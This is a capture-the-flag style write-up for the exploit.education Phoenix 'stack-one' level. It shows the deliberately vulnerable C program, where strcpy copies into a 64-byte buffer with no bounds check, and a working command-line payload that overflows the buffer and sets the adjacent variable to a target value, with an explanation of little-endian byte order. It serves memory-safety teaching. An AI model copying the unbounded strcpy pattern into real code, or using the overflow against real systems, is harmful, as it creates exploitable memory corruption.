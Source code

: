 ## Stack One
This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

## Source Code
```c
/*
 * phoenix/stack-one, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x496c5962
 *
 * Did you hear about the kid napping at the local school?
 * It's okay, they woke up.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  if (argc < 2) {
    errx(1, "specify an argument, to be copied into the \"buffer\"");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, argv[1]);

  if (locals.changeme == 0x496c5962) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",
        locals.changeme);
  }

  exit(0);
}
```

## Challenge
The aim is to change the contents of the changeme variable to 0x496c5962

## Solution
Just like in `stack-zero`:
* We need to change the value of `locals.changeme`
* We have a vulnerable function (`strcpy()`) acting on `locals.buffer`

This time we want a specific value in `locals.changeme` = `0x496c5962`.

### The Plan
`strcpy()` does not receive a length of chars to write, instead it copies from a source buffer to a dest buffer until it encounters a terminating null byte (it includes the byte).

It allows us to overflow from `locals.buffer` to `locals.changeme`.

### Breaking it
```console
user@phoenix-amd64:~$ /opt/phoenix/amd64/stack-one $(python -c "print 'a'*64 + '\x49\x6c\x59\x62'")
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x62596c49, we want 0x496c5962
```
Byte order is important, the value interpreted for `changeme` hints this system is `little-endian` - meaning the LSB (least-significant-byte) is first in memory.

![](/images/stack-one/0.png)
> Notice endianness only affects the layout of multi-byte representations like integers and some string encodings (like `UTF-16`).

We can verify this using the program `lscpu`, it displays CPU architecture information, among it is byte order.
```console
user@phoenix-amd64:~$ lscpu | grep "Byte Order"
Byte Order:            Little Endian
```

That's why our buffer representing a `32bit` integer was interpreted as `0x62596c49`.

Let's write it to memory in `little-endian` representation.
```console
user@phoenix-amd64:~$ /opt/phoenix/amd64/stack-one $(python -c "print 'a'*64 + '\x62\x59\x6c\x49'")
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```
🥳
